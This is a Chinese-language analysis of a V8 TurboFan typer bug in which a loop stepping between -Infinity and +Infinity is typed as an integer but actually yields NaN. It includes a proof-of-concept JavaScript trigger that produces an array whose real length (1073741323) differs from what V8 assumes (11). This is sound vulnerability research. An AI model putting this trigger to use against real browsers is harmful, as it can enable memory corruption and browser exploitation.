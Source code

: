 我们直接结合poc来一起分析：

```
function trigger() {
  var x = -Infinity;
  var k = 0;
  for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }

      if (++k > 10) {
        break;
      }
  }

  var value = Math.max(i, 1024);
  value = -value;
  value = Math.max(value, -1025);
  value = -value;
  value -= 1022;
  value >>= 1; // *** 3 ***
  value += 10; //
  var array = Array(value);
  array[0] = 1.1;
  return array;
};
```

首先我们分析下面的循环
```
for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }
```

我们循环中的x就是下面代码中的increment，i是InductionVariable。

```
Type Typer::Visitor::TypeInductionVariablePhi(Node* node) {
[...]
  const bool both_types_integer = initial_type.Is(typer_->cache_->kInteger) &&
                                  increment_type.Is(typer_->cache_->kInteger);
  bool maybe_nan = false;
  // The addition or subtraction could still produce a NaN, if the integer
  // ranges touch infinity.
  if (both_types_integer) {
    Type resultant_type =
        (arithmetic_type == InductionVariable::ArithmeticType::kAddition)
            ? typer_->operation_typer()->NumberAdd(initial_type, increment_type)
            : typer_->operation_typer()->NumberSubtract(initial_type,
                                                        increment_type);
    maybe_nan = resultant_type.Maybe(Type::NaN()); // *** 1 ***
  }

  if (!both_types_integer || maybe_nan) {
    // Fallback to normal phi typing, but ensure monotonicity.
    // (Unfortunately, without baking in the previous type, monotonicity might
    // be violated because we might not yet have retyped the incrementing
    // operation even though the increment's type might been already reflected
    // in the induction variable phi.)
    Type type = NodeProperties::IsTyped(node) ? NodeProperties::GetType(node)
                                              : Type::None();
    for (int i = 0; i < arity; ++i) {
      type = Type::Union(type, Operand(node, i), zone());
    }
    return type;
  }

[...]
```
因为我们的i初值为0，x初值为负无穷都满足typer\_->cache_->kInteger类型，所以会通过if (both_types_integer)判断，并且\*\*1**处也不会被判断为NAN。


重点来了：
i执行的操作是+=，满足条件arithmetic_type == InductionVariable::ArithmeticType::kAddition，因此，increment_min等于-inf，而increment_max等于inf，那么就直接进入下面的else分支，返回typer\_->cache_->kInteger;类型，也就是\*\*2**处的内容
```
  if (arithmetic_type == InductionVariable::ArithmeticType::kAddition) {
    increment_min = increment_type.Min();
    increment_max = increment_type.Max();
  } else {
    DCHECK_EQ(InductionVariable::ArithmeticType::kSubtraction, arithmetic_type);
    increment_min = -increment_type.Max();
    increment_max = -increment_type.Min();
  }

  if (increment_min >= 0) {
[...]
  } else if (increment_max <= 0) {
[...]
  } else {
    // Shortcut: If the increment can be both positive and negative,
    // the variable can go arbitrarily far, so just return integer.
    return typer_->cache_->kInteger; // *** 2 ***
  }
```

最终会导致turbofan认为poc里的这个循环，i最终类型为typer\_->cache_->kInteger;，然而，在实际的普通js层，测试发现，i最终类型为NaN

```js
  var value = Math.max(i, 1024);
  //console.log("value0 "+value);
  value = -value;
  //console.log("value1 "+value);
  value = Math.max(value, -1025);
  //console.log("value2 "+value);
  value = -value;
  //console.log("value3 "+value);
```
![](./img/2.png)

value0 NaN
value1 NaN
value2 -2147483648
value3 -2147483648
  
``` js 
  value -= 1022;
  value >>= 1; 
  value += 10; 
```

实际长度：1073741323
v8以为的长度：11